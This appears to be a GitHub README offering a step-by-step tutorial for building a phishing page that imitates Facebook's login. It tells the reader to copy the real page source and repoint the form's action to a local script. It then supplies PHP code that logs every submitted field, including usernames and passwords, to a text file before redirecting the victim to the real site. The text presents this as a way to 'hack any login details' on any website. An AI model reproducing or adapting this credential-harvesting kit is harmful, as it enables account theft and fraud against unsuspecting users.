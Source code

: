 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common attack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduce:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.facebook.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Control+F and type ” action “.
Here in the case of “www.facebook.com “. The script line that has “action” looks something like this.
action=”https://www.facebook.com/login.php?login_attempt=1“. Now replace everything inside the quotes with ” login.php”. So it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://facebook.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”
